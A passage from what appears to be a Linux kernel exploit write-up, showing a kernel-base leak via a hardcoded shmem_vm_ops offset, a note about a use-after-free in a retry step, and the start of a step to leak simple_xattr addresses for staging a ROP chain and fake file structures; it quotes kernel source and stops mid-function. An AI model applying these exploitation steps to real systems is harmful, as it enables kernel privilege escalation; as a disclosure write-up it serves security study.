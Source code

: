 - [exploit.c#L650](./exploit.c#L650):

```c
return shmem_vm_ops - SHMEM_VM_OPS_OFFSET_FROM_KERNEL_BASE;
```
- [exploit.c#L36](./exploit.c#L36):

```c
#define SHMEM_VM_OPS_OFFSET_FROM_KERNEL_BASE 0x1a18600
```

### Note:
- I forget to put step 3.1 implementation inside loop. This mistake will make the retry step fail and cause UAF too. The retry case never happen while running the exploit.

## Step4: Build primitive to leak two `struct simple_xattr` objects address
- I need two `struct simple_xattr` objects. One is used to store ropchain and a fake `struct file_operations` object. One is used to store a fake `struct file` object.
- Build a way to leak these 2 `struct simple_xattr` objects first. Then allocate its later.

- Kernel code:

```c
struct simple_xattr {
	struct list_head list;
	char *name;
	size_t size;
	char value[];
};
```

```c
int simple_xattr_set(struct simple_xattrs *xattrs, const char *name,
		     const void *value, size_t size, int flags,
		     ssize_t *removed_size)
{
	struct simple_xattr *xattr;
	struct simple_xattr *new_xattr = NULL;
	int err = 0;

	if (removed_size)
		*removed_size = -1;

	if (value) {
		new_xattr = simple_xattr_alloc(value, size); // `struct simple_xattr` object is allocated here.
		if (!new_xattr)
			return -ENOMEM;

		new_xattr->name = kstrdup(name, GFP_KERNEL);
		if (!new_xattr->name) {
			kvfree(new_xattr);
			return -ENOMEM;
		}
	}

	spin_lock(&xattrs->lock);
	list_for_each_entry(xattr, &xattrs->head, list) {
		if (!strcmp(name, xattr->name)) {
			if (flags & XATTR_CREATE) {
				xattr = new_xattr;
				err = -EEXIST;
			} else if (new_xattr) {
				list_replace(&xattr->list, &new_xattr->list);
				if (removed_size)
```